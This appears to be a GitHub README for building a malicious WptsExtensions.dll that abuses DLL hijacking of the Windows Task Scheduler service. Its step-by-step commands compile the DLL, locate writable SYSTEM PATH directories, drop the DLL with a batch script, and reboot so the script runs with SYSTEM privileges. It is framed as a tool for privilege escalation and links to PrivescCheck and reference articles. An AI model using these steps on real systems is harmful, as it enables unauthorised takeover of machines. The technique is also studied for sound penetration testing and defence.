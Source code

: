 ## WptsExtensions.dll for exploiting DLL Hijacking (Schedule - Task Scheduler)  
  
- Load x64 visual studio environnement variables:  
```
"C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat"
```
  
- Update the ```TCHAR script[]``` variable with a writable SYSTEM path where the DLL will be looked for.  
  Check this [tool](https://github.com/itm4n/PrivescCheck) to find ones.  
    
  You can also list this environment variable thanks to:  
  ```powershell -c "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"```.
  
- Go inside your source dir and run (BUILD MANUALLY to avoid unwanted dependencies):  
```
cl /LD /MT /EHa dllmain.cpp /Fe:WptsExtensions.dll
```
  
- Update bat script path:  
```
const TCHAR script[] = TEXT("C:\\Python27\\script.bat"):  
```
  
- Drop the DLL and script.bat in your writable directory (from the machine PATH)
```
powershell -Command "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"
```
  
- Reboot  
  
Tool to use during your privesc:  
[https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)  
  
Articles:  
[https://itm4n.github.io/windows-dll-hijacking-clarified/](https://itm4n.github.io/windows-dll-hijacking-clarified/)  
[http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html](http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html)
